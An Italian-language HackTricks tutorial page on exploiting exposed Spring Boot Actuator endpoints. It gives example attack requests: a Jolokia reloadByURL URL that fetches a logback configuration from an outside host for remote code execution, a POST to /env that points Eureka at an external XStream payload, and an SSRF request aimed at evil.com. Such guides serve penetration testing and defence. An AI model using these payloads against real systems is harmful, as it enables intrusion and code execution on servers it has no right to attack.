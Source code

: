 # Spring Actuators

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>

## **Bypass di Autenticazione Spring**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Da** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Sfruttare gli Attuatori di Spring Boot

**Controlla il post originale da** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Punti Chiave:**

* Gli Attuatori di Spring Boot registrano endpoint come `/health`, `/trace`, `/beans`, `/env`, ecc. Nelle versioni da 1 a 1.4, questi endpoint sono accessibili senza autenticazione. Dalla versione 1.5 in poi, solo `/health` e `/info` non sono sensibili per impostazione predefinita, ma spesso gli sviluppatori disabilitano questa sicurezza.
* Alcuni endpoint degli Attuatori possono esporre dati sensibili o consentire azioni dannose:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, e `/heapdump`.
* In Spring Boot 1.x, gli attuatori sono registrati sotto l'URL radice, mentre in 2.x sono sotto il percorso di base `/actuator/`.

### **Tecniche di Sfruttamento:**

1. **Esecuzione di Codice Remoto tramite '/jolokia'**:
* L'endpoint dell'attuatore `/jolokia` espone la libreria Jolokia, che consente l'accesso HTTP a MBeans.
* L'azione `reloadByURL` può essere sfruttata per ricaricare le configurazioni di logging da un URL esterno, il che può portare a XXE cieco o Esecuzione di Codice Remoto tramite configurazioni XML artigianali.
* URL di exploit di esempio: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modifica della Configurazione tramite '/env'**:
* Se sono presenti le librerie Spring Cloud, l'endpoint `/env` consente la modifica delle proprietà ambientali.
* Le proprietà possono essere manipolate per sfruttare vulnerabilità, come la vulnerabilità di deserializzazione XStream nel serviceURL di Eureka.
*   Esempio di richiesta POST di exploit:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Altre Impostazioni Utili**:
* Proprietà come `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, e `spring.datasource.tomcat.max-active` possono essere manipolate per vari sfruttamenti, come l'SQL injection o l'alterazione delle stringhe di connessione al database.

### **Informazioni Aggiuntive:**

* Un elenco completo degli attuatori predefiniti può essere trovato [qui](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* L'endpoint `/env` in Spring Boot 2.x utilizza il formato JSON per la modifica delle proprietà, ma il concetto generale rimane lo stesso.

### **Argomenti Correlati:**

1. **RCE di Env + H2**:
* Dettagli sull'esplorazione della combinazione dell'endpoint `/env` e del database H2 possono essere trovati [qui](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF su Spring Boot Attraverso un'Interpretazione Errata del Nome del Percorso**:
* La gestione dei parametri di matrice (`;`) del framework Spring nei nomi dei percorsi HTTP può essere sfruttata per Server-Side Request Forgery (SSRF).
*   Esempio di richiesta di exploit:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
